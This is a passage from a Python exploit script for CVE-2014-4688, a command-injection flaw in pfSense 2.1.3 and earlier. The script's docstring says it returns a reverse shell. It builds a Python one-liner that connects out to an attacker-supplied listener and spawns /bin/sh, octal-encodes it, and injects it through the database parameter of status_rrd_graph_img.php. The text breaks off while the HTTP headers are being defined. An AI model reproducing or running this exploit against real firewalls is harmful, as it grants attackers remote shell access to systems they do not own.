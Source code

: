 ```
# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
```